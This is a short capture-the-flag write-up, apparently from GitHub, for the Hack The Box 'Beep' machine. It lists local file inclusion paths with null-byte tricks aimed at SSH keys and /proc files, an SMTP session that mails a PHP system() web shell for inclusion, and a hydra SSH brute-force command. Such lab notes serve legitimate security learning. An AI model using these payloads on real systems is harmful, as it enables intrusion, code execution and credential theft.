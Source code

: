 # Beep Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

# ${{\color{purple}Initial Foothold}}\ $

* First point when he have a security TLS error in firefox like this 
 ![image](https://user-images.githubusercontent.com/123066149/217526766-f4604150-68a0-465c-8ade-30c2f22b9e17.png)

You have to go to the firefox settings and accept the depreciated protocols -> new tab -> about:config -> security.version.enable-deprecated (true)

# ${{\color{purple}Exploitation}}\ $

LFI tips: 
- /var/lib/<username>/.ssh/id_rsa%00
- /proc/self/status%00 (look at the uid of the user and look at the user who runs the application in `/etc/passwd`)
- check /proc/self/about%00 (check the possible user agent `<?php echo "hello"; ?>`)
- use the burp suite intruder to see if there are any other accessible files
  
# ${{\color{purple}Privilege Escalation}}\ $

![image](https://user-images.githubusercontent.com/123066149/217532253-26283ba3-dd22-439b-bfbc-8ddf4a65e467.png)
  
`telnet 10.10.10.7 25` 
  
  ### or
  
`nc -nvv 10.10.10.7 25`
  
``EHLO test.beep.htb``
  
``VRFY asterisk@localhost``
  
``mail from:pwned@haha.io``
  
``rcpt to:asterisk@localhost``
  
``data``
  
``Subject: You got owned``
  
``<?php echo system($REQUEST['id']); ?>``
  
``blanck line``
  
``.``
  
![beep2](https://user-images.githubusercontent.com/123066149/217533503-0b8ad502-2a6b-4d82-ba0b-65842e428c39.PNG)

 use burp to try a code execution : `/var/mail/user%00`
  
# ${{\color{purple}Points of Improvement}}\ $

* Improve my directory brute force
* Use `curl -k (https://) -o xxx.png` use -k for allow insecure server connections
* Use `exiftool` for .png
* Use `ctrl + U` to improve a display
* Use vi `:g/nologin/d` to clean up the output of the `/etc/passwd` file
* When i found a `password` and `user` don't hesitate to directly do a bruteforce

`ssh hydra -L users -P pw ssh://IP`
* Use the smart decode function of burp
